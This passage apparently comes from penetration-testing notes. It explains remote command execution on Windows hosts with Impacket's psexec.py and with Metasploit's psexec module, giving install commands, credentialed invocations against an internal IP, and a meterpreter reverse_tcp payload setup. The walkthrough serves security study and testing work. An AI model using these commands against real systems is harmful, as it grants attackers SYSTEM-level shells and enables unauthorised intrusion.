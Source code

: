 Run the module using `run`. Keep track of any Administrator accounts.

#### Psexec.py Python Script

Since Microsoft's PsExec is an executable designed to only run on windows systems, it isn't compatible with non-Windows systems (eg Kali). Impacket offers a suite of Python tools for network protocol interactions, including `psexec.py` which is a python script that emulates PsExec's functionality enabling the execution of processes on remote Windows systems from different source platforms, like Linux/MacOs.

The psexec.py script works similarly to the Microsoft version by creating a service on the target host, uploading a randomly named executable to the `ADMIN$` share, and communicating over a named pipe to provide an interactive remote shell with SYSTEM privileges. After execution, `psexec.py` removes any components it deployed on the target system.

- **Impacket Github**: https://github.com/fortra/impacket/tree/master

You can clone the Impacket repository and the psexec.py script would reside in the `examples` subdirectory (...impacket/examples/psexec.py). Ensure that all dependencies are installed.

```
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

By default, `psexec.py` launches a interactive command shell (`cmd.exe`) on the target. 
```
psexec.py Administrator:Password@10.63.45.88
```

If its apart of a domain include the domain before the user account separated with a slash (`...mydomain/Administrator...`). To execute a specific command, add it to the command line. This should return the output of the command back to your shell:
```
psexec.py Administrator:Password@10.63.45.88 ipconfig
```

#### PsExec Metasploit Module

The psexec exploit module `exploit/windows/smb/psexec`  will authenticate through psexec to smb and then upload a meterpreter payload.  This is installing software on the target so be aware of Antivirus solutions which could detection the software as malicious.

1. **Find/Use the module**: Can just search for `psexec` in Metasploit and select the psexec exploit  or `use exploit/windows/smb/psexec `. The payload will probably be set to `windows/meterpreter/reverse_tcp` which 32-bit but its fine:
```
#### search psexec ####

use exploit/windows/smb/psexec
```
2. **Configure the module**: We'll need to set the target with `RHOSTS` and then the `SMBUser`  and `SMBPass` of the account. You can also configure the payload which you can set to your machine `LHOST` & `LPORT`.

```
set RHOST target
set SMBUser <username>
set SMBPass <password>
```
4. Run the exploit using just `exploit`. This should start a meterpreter session if successful.
